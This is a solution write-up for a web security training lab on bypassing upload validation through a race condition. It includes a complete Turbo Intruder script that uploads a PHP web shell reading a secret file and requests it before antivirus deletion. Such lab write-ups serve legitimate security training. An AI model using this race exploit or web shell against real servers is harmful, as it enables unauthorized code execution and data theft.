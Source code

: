 # Web shell upload via race condition
# Objective
This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
### Upload request example
|![](Images/image-38.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-39.png)|
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```

### PHP payload upload test
PHP files are not allowed - `only JPG & PNG files are allowed`.
|![](Images/image-40.png)|
|:--:| 
| *PHP files are not allowed* |

## Exploitation
### Exploitation using Turbo Indruder
This webiste probably rely on anti-virus software that checks all files that are uploaded by users. Moreover, files are uploaded directly to the main filesystem and if they do not pass validation they are removed. This opens a possibility for race condition vulnerability:
1. Attacker uploades a malicious file
2. Attacker tries to query the malicious file before it gets deleted in order to trigger PHP payload

|![](Images/image-42.png)|
|:--:| 
| *Turbo Intruder configuration* |
|![](Images/image-41.png)|
| *PHP payload was successfuly uploaded* |
| *PHP payload was triggered before it was deleted by AV* |

Setup code for Turbo Indruder:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /my-account/avatar HTTP/2
Host: 0a130028037a5ee783ee471b00e30091.web-security-academy.net
Cookie: session=K1iFzkhOPZdUJUURs0Ygi1gTjWFVa2RP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------149264121618422100411530993523
Content-Length: 546
Origin: https://0a130028037a5ee783ee471b00e30091.web-security-academy.net
Dnt: 1
Referer: https://0a130028037a5ee783ee471b00e30091.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------149264121618422100411530993523
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------149264121618422100411530993523
Content-Disposition: form-data; name="user"

wiener
-----------------------------149264121618422100411530993523
Content-Disposition: form-data; name="csrf"

VKyDRnoywgCuSF3iqleLsUiLxgK41npR
-----------------------------149264121618422100411530993523--
'''

    request2 = '''GET /files/avatars/exploit.php HTTP/2
Host: 0a130028037a5ee783ee471b00e30091.web-security-academy.net
Cookie: session=K1iFzkhOPZdUJUURs0Ygi1gTjWFVa2RP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-Modified-Since: Sun, 06 Oct 2024 13:01:11 GMT
If-None-Match: "606-623ce7f962cd9"
Te: trailers

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```